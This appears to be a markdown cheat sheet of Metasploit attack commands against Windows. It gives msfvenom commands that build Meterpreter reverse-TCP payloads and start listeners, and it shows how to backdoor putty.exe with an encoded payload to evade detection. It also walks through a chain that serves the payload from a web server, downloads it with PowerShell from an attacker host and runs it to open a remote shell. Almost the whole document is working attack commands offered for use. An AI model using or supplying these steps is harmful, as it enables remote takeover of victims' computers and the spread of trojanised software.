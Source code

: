 Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S 10.5.21.24:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

